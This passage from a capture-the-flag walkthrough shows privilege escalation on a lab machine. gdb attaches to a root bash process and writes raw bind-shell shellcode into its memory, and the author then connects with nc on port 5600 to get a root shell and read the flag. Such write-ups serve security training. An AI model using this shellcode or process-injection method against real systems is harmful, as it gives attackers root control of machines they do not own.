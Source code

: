 Next we'll need a target to inject into. I find a file /root/service_chech.sh that seems like a perfect candidate.

```bash
developer@faculty:/tmp$ /usr/bin/gdb -p 48697
/usr/bin/gdb -p 48697
Attaching to process 48697
Reading symbols from /usr/bin/bash...
(No debugging symbols found in /usr/bin/bash)
Reading symbols from /lib64/ld-linux-x86-64.so.2...
Reading symbols from /usr/lib/debug/.build-id/45/87364908de169dec62ffa538170118c1c3a078.debug...
0x00007f44951b5c3a in _start () from /lib64/ld-linux-x86-64.so.2
(gdb) set {long}($rip+0) = 0x9090909090909090
set {long}($rip+8) = 0x48d23148c0314890
set {long}($rip+16) = 0x6a58296ac6fff631
set {long}($rip+24) = 0x026a9748050f5f02
set {long}($rip+32) = 0x54e015022444c766
set {long}($rip+40) = 0x5a106a58316a525e
set {long}($rip+48) = 0x050f58326a5e050f
set {long}($rip+56) = 0x6a9748050f582b6a
set {long}($rip+64) = 0x050f21b0ceff5e03
set {long}($rip+72) = 0x2fbb4852e6f7f875
set {long}($rip+80) = 0x5368732f2f6e6962
set {long}($rip+88) = 0x050f3bb0243c8d48(gdb) (gdb) (gdb) (gdb) (gdb) (gdb) (gdb) (gdb) (gdb) (gdb) (gdb) (gdb) c
Numeric constant too large.
(gdb) c
Continuing.
```

Now in another session I will check port 5600 for the bind shell and nc into it if it's there.

```bash
developer@faculty:/tmp$ netstat -tunlp
netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5600            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
developer@faculty:/tmp$ nc 127.0.0.1 5600
nc 127.0.0.1 5600
whoami
root
cat /root/root.txt
```